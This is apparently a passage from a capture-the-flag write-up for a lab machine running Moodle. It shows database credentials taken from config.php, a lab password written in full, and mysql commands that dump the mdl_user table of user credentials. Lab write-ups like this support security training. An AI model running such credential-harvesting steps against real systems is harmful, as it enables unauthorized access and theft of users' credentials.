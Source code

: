 
Checking the file **config.php** in dir:

<p align="center">
 <img src="images/schooled11.jpg">
</p>


We get db creds as  *moodle:P################0* 

We notice that mysql dosent exist in PATH. We find mysql using the basic find command : **find / -name mysql 2> /dev/null**
Mysql is at /usr/local/bin/mysql

We perform 3 basic queries now to enumerate the db: 

Fist cd to /usr/local/bin 
then:

- mysql -u moodle -pPlaybookMaster2020 -e 'show databases;' --> infer moodle as the db name.
- mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'  --> we infer mdl_user could be juicy.
- mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;' --> db creds dump. 


<p align="center">
 <img src="images/schooled12.png">
</p>
